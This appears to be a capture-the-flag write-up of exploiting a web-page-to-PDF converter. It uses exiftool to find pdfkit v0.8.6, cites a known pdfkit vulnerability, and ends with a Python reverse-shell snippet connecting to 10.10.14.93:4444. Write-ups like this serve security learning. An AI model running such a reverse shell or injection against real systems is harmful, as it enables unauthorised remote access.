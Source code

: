 This is the website Convert Web Page to PDF for port 80.

Can try to use python http server to get my machine web page pdf.

`python3 -m http.server 80`

<img src="https://user-images.githubusercontent.com/67650329/206101744-1907c687-ee20-45a3-808f-b498cbb36368.png" width="500px" align="center">

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.189 - - [06/Dec/2022 07:23:22] "GET / HTTP/1.1" 200 –
```

We get the our machine pdf webpage.

We can try to search this pdf information use exiftool.

`exiftool [name_file]`

```
ExifTool Version Number         : 12.44
File Name                       : [name_file]
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2022:12:06 07:23:23-05:00
File Access Date/Time           : 2022:12:06 07:23:26-05:00
File Inode Change Date/Time     : 2022:12:06 07:23:26-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
We got the version of pdfkit that is v0.8.6. We can search on searchengine the exploit of the version.

https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

We can test the exploit from the website.

### Gaining Access / Exploitation

<img src="https://user-images.githubusercontent.com/67650329/206104612-fe9d9fe2-835e-4656-84f7-78af05d70ca8.png" width="500px" align="center">
<img src="https://user-images.githubusercontent.com/67650329/206104790-fa35550e-e6e4-4d87-a3cd-a24b755950ce.png" width="500px" align="center">

We can exploit the website use this method.

We can try use revshell. https://www.revshells.com/

This is the revshell.
```
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
